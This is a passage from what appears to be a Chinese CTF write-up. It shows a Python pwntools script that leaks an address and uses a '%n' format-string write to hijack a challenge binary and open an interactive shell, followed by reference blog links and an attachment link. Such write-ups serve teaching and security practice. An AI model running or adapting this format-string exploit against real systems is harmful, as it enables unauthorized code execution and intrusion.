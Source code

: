 ```
print p.recvuntil("xxxxx.")
description = p.recvuntil("&gt;&gt;&gt; ")
payloadAddress = description[0:7]
print "----------3 fmtstr : exploit----------"
p.sendline("1")
print p.recvuntil("Name: ")
p.sendline("cccccc")
print p.recvuntil("No: ")
p.sendline("333333")
print p.recvuntil("description: ")
p.sendline("1000")
print p.readline()
tmp = int(payloadAddress, 16) - 4 + 11 
p.sendline("%" + str(tmp) + "x%6$n")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("4")
print p.recvuntil("&gt;&gt;&gt; ")
p.sendline("5")
p.interactive()
```

<br>

**参考文章**

[](http://www.cnblogs.com/Ox9A82/)

[http://www.cnblogs.com/Ox9A82/](http://www.cnblogs.com/Ox9A82/)

[http://www.tuicool.com/articles/iq6Jfe](http://www.tuicool.com/articles/iq6Jfe)

[http://matshao.com/2016/07/13/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-%E6%9D%A5-PWN-%E6%88%91%E4%B8%80%E4%B8%8B%E5%A5%BD%E5%90%97%E7%AC%AC%E4%BA%8C%E6%9C%9F/](http://matshao.com/2016/07/13/%E4%B8%89%E4%B8%AA%E7%99%BD%E5%B8%BD-%E6%9D%A5-PWN-%E6%88%91%E4%B8%80%E4%B8%8B%E5%A5%BD%E5%90%97%E7%AC%AC%E4%BA%8C%E6%9C%9F/)

<br>

**附件**

[](https://pan.baidu.com/s/1pLM2Pfl)

[https://pan.baidu.com/s/1pLM2Pfl](https://pan.baidu.com/s/1pLM2Pfl)
